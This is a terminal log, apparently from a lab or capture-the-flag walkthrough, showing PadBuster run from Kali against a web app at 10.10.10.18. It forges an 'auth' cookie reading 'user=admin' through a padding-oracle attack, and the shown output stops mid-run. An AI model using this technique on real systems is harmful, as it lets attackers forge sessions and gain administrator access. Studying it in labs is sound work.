     
    
    root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0 -plaintext user=admin                      
    
    +-------------------------------------------+                                           
    | PadBuster - v0.3.3                        |                                           
    | Brian Holyfield - Gotham Digital Science  |                                           
    | labs@gdssecurity.com                      |                                           
    +-------------------------------------------+                                           
    
    INFO: The original request returned the following                                       
    [+] Status: 200                             
    [+] Location: N/A                           
    [+] Content Length: 978                     
    
    INFO: Starting PadBuster Encrypt Mode       
    [+] Number of Blocks: 2                     
    
    INFO: No error string was provided...starting response analysis                         
    
    *** Response Analysis Complete ***          
    
    The following response signatures were returned:                                        
    
    -------------------------------------------------------                                 
    ID#     Freq    Status  Length  Location                                                
    -------------------------------------------------------                                 
    1       1       200     1133    N/A         
    2 **    255     200     15      N/A         
    -------------------------------------------------------                                 
    
    Enter an ID that matches the error condition                                            
    NOTE: The ID# marked with ** is recommended : 2                                         
    
    Continuing test with selection 2            
    
    [+] Success: (196/256) [Byte 8]             
    [+] Success: (148/256) [Byte 7]             
    [+] Success: (92/256) [Byte 6]              
    [+] Success: (41/256) [Byte 5]              
    [+] Success: (218/256) [Byte 4]             
    [+] Success: (136/256) [Byte 3]             
    [+] Success: (150/256) [Byte 2]             
    [+] Success: (190/256) [Byte 1]             
    
    Block 2 Results:
    [+] New Cipher Text (HEX): 23037825d5a1683b                                             
    [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d                                          
    
    [+] Success: (1/256) [Byte 8]               
    [+] Success: (36/256) [Byte 7]              
    [+] Success: (180/256) [Byte 6]             
    [+] Success: (17/256) [Byte 5]              
    [+] Success: (146/256) [Byte 4]             
    [+] Success: (50/256) [Byte 3]              
    [+] Success: (132/256) [Byte 2]             
    [+] Success: (135/256) [Byte 1]             
    